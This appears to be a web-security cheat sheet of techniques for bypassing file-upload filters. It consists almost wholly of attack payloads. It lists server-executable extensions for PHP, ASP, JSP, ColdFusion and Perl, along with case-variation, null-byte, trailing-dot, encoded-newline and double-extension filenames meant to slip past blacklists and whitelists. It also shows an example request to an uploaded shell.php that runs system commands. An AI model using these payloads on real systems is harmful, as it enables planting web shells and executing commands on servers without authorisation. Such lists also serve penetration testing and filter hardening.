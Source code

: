 # 404  File upload Bypass

# Blacklisting Bypass
PHP → .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
ASP → .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp → .jsp, .jspx, .jsw, .jsv, .jspf
Coldfusion → .cfm, .cfml, .cfc, .dbm
Perl → .pl, .cgi
# Using random capitalization → .pHp, .pHP5, .PhAr

#http://target.com/path/to/shell.php?__=system&___=ls



Bypass file upload With this method
.extentions./%00.png
Example :
.php.%00.png



# Whitelisting Bypass
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg

